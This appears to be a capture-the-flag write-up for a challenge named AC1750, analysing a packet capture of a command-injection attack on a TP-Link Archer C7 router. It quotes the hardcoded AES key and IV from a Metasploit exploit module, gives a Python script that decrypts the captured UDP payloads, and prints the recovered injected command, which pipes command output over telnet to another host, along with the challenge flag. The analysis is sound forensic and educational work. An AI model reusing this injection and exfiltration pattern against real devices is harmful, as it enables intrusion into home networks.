

# AC1750

### Challenge Text

>My router is weird, can you help me find the problem?

### Challenge Work

Examination of the packet capture shows us a lot of conversations between 192.168.0.1 and 192.168.0.105, plus two others. If we look at packets that are directed towards 192.168.0.255 we can see that 192.168.0.1 is advertising itself as a TP-Link Archer C7 (also known as the AC1750).

If we look at all of the conversations (Wireshark > Statistics > Conversations) we can see that the final message sent from the router to the host on 192.168.0.105 appears to be a directory listing of `/` from some Unix system. This got me to thinking that remote code execution was done somehow. I then googled "AC1750 remote code execution" and [found this page](https://www.rapid7.com/db/modules/exploit/linux/misc/tplink_archer_a7_c7_lan_rce/).

I looked at the packets a bit more and tried to extract data from the packets behind the final listing, but did not find anything. I then decided to look at the [source code](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/misc/tplink_archer_a7_c7_lan_rce.rb) of the exploit, as it was linked on the above URL. When I was scrolling the source code I noticed this block:

```ruby
### Line 234
def aes_encrypt(plaintext)
    # Function encrypts perfectly 16 bytes aligned payload

    if (plaintext.length % 16 != 0)
      return
    end

    cipher = OpenSSL::Cipher.new 'AES-128-CBC'
    # in the original C code the key and IV are 256 bits long... but they still use AES-128
    iv = '1234567890abcdef'
    key = 'TPONEMESH_Kf!xn?'
    encrypted = ''
    cipher.encrypt
    cipher.iv = iv
    cipher.key = key

    # Take each 16 bytes block and encrypt it
    plaintext.scan(/.{1,16}/) do |block|
      encrypted += cipher.update(block)
    end

    encrypted
  end
```

It looks like the router is looking for encrypted packets for this exploit to work. The authors even gave us the IV and key! They also let us know that we need to break down the packet data into 16 byte chunks for decrypting. Looking further in the exploit source code told us that this exploit is executed via UDP:

```ruby
### Line 400
udp_sock.put(tpdp_packet)
```

I then filtered down to all UDP packets from our host (192.168.0.105) to the router (192.168.0.1) that were longer than 150 bytes (there were some other casting packets of smaller size).



I then exported this to JSON via Wireshark > File > Export Packet Dissections > Export as JSON. After that we can fiddle with the data and extract our payload, which contains our flag:

```python
import json
import binascii
from Crypto.Cipher import AES
import Crypto.Cipher.AES

# Open Exported JSON data that was exported from the PCAP with this filter:
# ip.src == 192.168.0.105 && udp && udp.length > 175
# Then in Wireshark: File > Export Packet Dissections > As JSON
jf = open("./ac_json.json", "r").read()
jdata = json.loads(jf)

# AES decryption information defined in the exploit code
# https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/misc/tplink_archer_a7_c7_lan_rce.rb
aes_iv = b'1234567890abcdef'
aes_key = b'TPONEMESH_Kf!xn?'

# Define out cipher object
decipher = AES.new(aes_key,AES.MODE_CBC,aes_iv)

# 16 byte chunks, please
def split_hex_string(hex_string):
    n = 32
    return [hex_string[i:i+n] for i in range(0, len(hex_string), n)]

# Iterate over all data and instantiate our global string
decoded_str = ''
for entry in jdata:
    raw_hex_data = entry['_source']["layers"]["data"]["data.data"].replace(":","")

    raw_hex_chunks = split_hex_string(raw_hex_data)
    raw_bin_chunks = [binascii.unhexlify(x) for x in raw_hex_chunks]

    decrypted_bin_chunks = [decipher.decrypt(x) for x in raw_bin_chunks]

    # The 8th chunk of each chunks_list is the tail end of a printf statement.
    # The 5th character of that chunk is the character printf is writing.
    decoded_str += decrypted_bin_chunks[7].decode("utf-8")[4]

print(decoded_str)

#"(ls -l&&echo hitcon{Why_can_one_place_be_injected_twice}>flag&&ls -l)|telnet 192.168.0.105 4321 
```

```
"(ls -l&&echo hitcon{Why_can_one_place_be_injected_twice}>flag&&ls -l)|telnet 192.168.0.105 4321 
```

